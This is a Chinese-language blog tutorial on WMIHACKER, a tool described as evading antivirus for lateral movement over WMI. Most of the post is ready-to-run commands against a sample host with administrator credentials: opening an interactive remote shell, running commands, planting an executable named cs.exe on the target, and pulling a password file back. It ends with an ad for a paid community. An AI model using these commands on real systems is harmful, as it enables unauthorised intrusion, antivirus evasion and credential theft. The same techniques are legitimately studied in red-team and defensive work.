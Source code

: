 **目录**

[交互式shell](#t0 "交互式shell")

[执行命令](#t1 "执行命令")

[执行无回显命令](#t2 "执行无回显命令")

[上传文件](#t3 "上传文件")

[下载文件](#t4 "下载文件")

* * *

参考文章：[WMIHACKER（仅135端口免杀横向移动） - 安全客，安全资讯平台](https://www.anquanke.com/post/id/209665?from=timeline "WMIHACKER（仅135端口免杀横向移动） - 安全客，安全资讯平台")

项目地址：[GitHub - rootclay/WMIHACKER: A Bypass Anti-virus Software Lateral Movement Command Execution Tool](https://github.com/360-Linton-Lab/WMIHACKER "GitHub - rootclay/WMIHACKER: A Bypass Anti-virus Software Lateral Movement Command Execution Tool")

主要功能：

*   命令执行与结果读取
*   文件上传
*   文件下载
*   支持win2003机器以后所有版本

**使用：**

执行模式包括**/cmd、/shell、/upload、/download**分别指执行命令、模拟shell、上传文件、下载文件

/cmd 模式中1代表获取命令执行结果，0代表不获取结果，比如执行命令为”echo 1 > test”这类需要重定向或其他不需要输出的命令选择值应该为0.

![](https://img-blog.csdnimg.cn/20200702215922871.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

### 交互式shell

```
cscript //nologo WMIHACKER_0.6.vbs /shell 192.168.10.20 administrator "root"
```


### 执行命令

```
cscript //nologo WMIHACKER_0.6.vbs /cmd 192.168.10.20 administrator "root" "ipconfig" 1
```


![](https://img-blog.csdnimg.cn/20200702220335836.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

### 执行无回显命令

```
cscript //nologo WMIHACKER_0.6.vbs /cmd 192.168.10.20 administrator "root" "echo whoami > c:\1.txt" 0      
cscript //nologo WMIHACKER_0.6.vbs /cmd 192.168.10.20 administrator "root" "type c:\1.txt" 1
```


![](https://img-blog.csdnimg.cn/2020070222053276.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

![](https://img-blog.csdnimg.cn/20200702220550364.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

![](https://img-blog.csdnimg.cn/20200702220631516.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

### 上传文件

上传e盘下的cs.exe到目标主机的C盘下

```
cscript //nologo WMIHACKER_0.6.vbs /upload 192.168.10.20 administrator "root" "e:\cs.exe" "c:\cs.exe"
```


![](https://img-blog.csdnimg.cn/20200702220936580.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

![](https://img-blog.csdnimg.cn/20200702221058195.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

### 下载文件

下载目标c盘下的mima.txt到本地的E盘下

```
cscript //nologo WMIHACKER_0.6.vbs /download 192.168.10.20 administrator "root" "c:\mima.txt" "e:\mima.txt"
```


![](https://img-blog.csdnimg.cn/20200702221601363.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

 如果想跟我一起讨论的话，就快加入我的知识星球吧。星球里有一千多位同样爱好安全技术的小伙伴一起交流！[知识星球 | 深度连接铁杆粉丝，运营高品质社群，知识变现的工具](https://wx.zsxq.com/dweb2/index/group/88514121251242 "知识星球 | 深度连接铁杆粉丝，运营高品质社群，知识变现的工具")

![](https://img-blog.csdnimg.cn/1219ed79e9ed449d85d27b732cda5ea6.jpg)
